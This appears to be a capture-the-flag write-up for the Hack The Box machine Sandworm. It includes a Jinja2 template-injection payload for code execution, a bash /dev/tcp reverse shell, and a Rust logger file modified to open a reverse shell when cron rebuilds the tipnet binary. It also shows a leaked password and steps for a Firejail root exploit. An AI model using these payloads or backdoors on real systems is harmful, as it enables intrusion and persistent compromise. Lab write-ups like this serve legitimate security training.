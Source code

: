 # Sandworm

<p align="center"><img src="assets/Sandworm.png" width="400"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Sandworm
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration


<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.218

Discovered open port 443/tcp on 10.10.11.218
Discovered open port 22/tcp on 10.10.11.218
Discovered open port 80/tcp on 10.10.11.218
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.218

22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Secret Spy Agency | Secret Security Service
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>gobuster dir</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'https://ssa.htb/' --no-tls-validation

/contact              (Status: 200) [Size: 3543]
/about                (Status: 200) [Size: 5584]
/login                (Status: 200) [Size: 4392]
/view                 (Status: 302) [Size: 225] [--> /login?next=%2Fview]
/admin                (Status: 302) [Size: 227] [--> /login?next=%2Fadmin]
/guide                (Status: 200) [Size: 9043]
/pgp                  (Status: 200) [Size: 3187]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/process              (Status: 405) [Size: 153]
```
</details>

## Foothold

### Web → `atlas` *(Firejail)*

#### Searching for Vulnerabilities

- the footer of the page says "Powered by Flask"
- the `/guide`-page has a section to verify signed PGP-messages
- when generating a new PGP keypair using `gpg --full-generate-key`, we can enter a name, an email-address and a comment; this information is displayed in a pop-up after successful verification by the site
- the output is not escaped, therefore a **Jinja2 template injection** is possible
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
    - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#rce-escaping

#### Exploitation

1. Generate a GPG keypair using `gpg --full-generate-key`, set the name to the following value:
    
    ```py
    {{''.__class__.mro()[-1].__subclasses__()[439](request.form.input,shell=True,stdout=-1).communicate()[0].strip()}}
    ```
    - `‘'.__class__.mro()[-1]` gives access to `<class 'object'>`, 
    - subclass 439 is `<class 'subprocess.Popen'>`, which allows us to do a RCE
    - `request.form.input` gives us access to the POST parameter `input` of the request
    - → the value of the POST parameter will be executed

2. Export the public key and enter it on the `/guide`-page in the verification form:
    
    ```
    gpg --armor --export <email> > mykey.gpg
    ```
    - `<email>` is the email that was specified during key generation

3. Sign any message using the generated keypair and enter it on the website:
    
    ```
    gpg --armor --clear-sign -u <email> -o <output file> <message>
    ```

4. Start a reverse shell listener using netcat:
    
    ```
    nc -lvnp 9002
    ```

5. Verify the signed message using the form, but intercept the request using burpsuite. Add the POST parameter `input` with the url-encoded payload for a reverse shell:
    
    ```bash
    bash -c '/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1'
    # url-encoded as a POST paramter:
    &input=%62%61%73%68%20%2d%63%20%27...
    ```

6. You should now have reverse shell access for the user `atlas`.
    - available commands very limited, hardly any write permissions
    - `cat /proc/1/cgroup` shows that we are in a [Firejail](https://github.com/netblue30/firejail) environment


## Lateral Movement

### `atlas` → `silentobserver` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` shows, that there is another user `silentobserver` with a home directory

#### Exploitation

1. `/home/atlas/.config/httpie/sessions/localhost_5000/admin.json` contains credentials for user `silentobserver`:
    
    ```json
    "auth": {
            "password": "quietLiketheWind22",
            "type": null,
            "username": "silentobserver"
        },
    ```

2. With these credentials, an SSH connection is possible for the user `silentobserver`, who has the user flag in his home directory 🚩
    - user is still in `jailer` group


### `silentobserver` → `atlas` *(unrestricted)*

#### Searching for Vulnerabilities

- the `/opt/tipnet/target/debug/tipnet` binary has the SUID bit set for user `atlas`
- the source code for `tipnet` can be found at `/opt/tipnet/src/main.rs`
- `main.rs` shows, that crate `/opt/crates/logger/src/logger.rs` gets imported
- `silentobserver` has write access to `logger.rs`
- there is a cron job running, which periodically compiles and runs `tipnet`
 
#### Exploitation

1. Edit `/opt/crates/logger/src/logger.rs` and insert the code for a reverse shell
    - https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python
    - <details>
        <summary>modified <code>logger.rs</code></summary>
        
        ```rust
        extern crate chrono;

        use std::fs::OpenOptions;
        use std::io::Write;
        use chrono::prelude::*;
        use std::net::TcpStream;
        use std::os::unix::io::{AsRawFd, FromRawFd};
        use std::process::{Command, Stdio};

        pub fn log(user: &str, query: &str, justification: &str) {
            let s = TcpStream::connect("<your ip>:9002").unwrap();
            let fd = s.as_raw_fd();
            Command::new("/bin/sh")
                .arg("-i")
                .stdin(unsafe { Stdio::from_raw_fd(fd) })
                .stdout(unsafe { Stdio::from_raw_fd(fd) })
                .stderr(unsafe { Stdio::from_raw_fd(fd) })
                .spawn()
                .unwrap()
                .wait()
                .unwrap();

            let now = Local::now();
            let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
            let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

            let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
                Ok(file) => file,
                Err(e) => {
                    println!("Error opening log file: {}", e);
                    return;
                }
            };

            if let Err(e) = file.write_all(log_message.as_bytes()) {
                println!("Error writing to log file: {}", e);
            }
        }
        ```
        
        </details>


2. Start a reverse shell listener using netcat:
    
    ```
    nc -lvnp 9002
    ```

3. After a while, we get reverse shell access for `atlas` in an unrestricted environment.

## Privilege Escalation

### `atlas` → `root` 🏁

#### Searching for Vulnerabilities

- An [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) exists for    Firejail 0.9.68, which can be used for privilege escalation

#### Exploitation

1. Open a second reverse shell for `atlas` like explained above.
2. Download the [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) on the target machine, e.g. using an python http server and wget.
3. Run the exploit using `chmod +x exploit.py && python3 exploit.py`.
4. In the second reverse shell, first run `firejail --join=<id>` *(the exploit will tell you the exact command)*, then `su -`.
5. We now have shell access for `root` and can claim the root flag! 🏁

